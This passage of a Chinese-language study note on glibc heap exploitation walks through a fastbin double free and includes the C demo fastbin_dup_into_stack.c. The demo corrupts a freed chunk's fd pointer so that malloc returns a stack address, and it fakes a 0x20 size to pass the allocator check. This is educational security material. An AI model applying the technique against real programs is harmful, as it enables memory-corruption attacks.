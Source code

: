 malloc a, b, c后：

![](../image/2019-10-10-堆利用记录/1.jpg)

double free后：

![](../image/2019-10-10-堆利用记录/2.jpg)

1st malloc(8) 和 3rd malloc(8)分配到的都是之前的chunk a.

### fastbin_dup_into_stack.c

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	unsigned long long stack_var;

	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	free(a);
	free(b);
	free(a);

	unsigned long long *d = malloc(8);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));

	stack_var = 0x20;

	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```
double free 后重新获取chunk a 和 chunk b，并修改chunk a的fd到栈地址上。stack_var变量保存在栈上，给它赋值0x20是为了绕过fastbin中大小检查。
